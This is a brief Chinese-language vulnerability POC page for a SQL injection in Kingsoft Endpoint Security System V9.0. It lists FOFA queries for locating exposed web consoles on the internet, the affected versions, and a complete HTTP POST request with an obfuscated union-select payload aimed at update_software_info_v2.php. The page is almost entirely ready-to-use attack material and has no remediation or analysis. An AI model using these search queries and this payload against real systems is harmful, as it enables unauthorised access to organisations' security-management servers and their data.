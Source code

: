 # 金山终端安全系统V9.0 SQL注入漏洞

## 金山终端安全系统V9.0 SQL注入漏洞

## fofa查询语法
```
app="金山终端安全系统V9.0Web控制台"
title=="用户登录-金山终端安全系统V9.0Web控制台"
```

## 影响版本
金山终端安全系统 V9.0 < V9.SP1.E1008

## POC
```
POST /inter/update_software_info_v2.php HTTP/1.1 
Content-Type: application/x-www-form-urlencoded 
Host: ip:port
Content-Length: 81

type=--1E0union/**/se#lect-1E0,2,1,user(),5,6,7,8--&key=123&pageCount=1&curPage=1
```

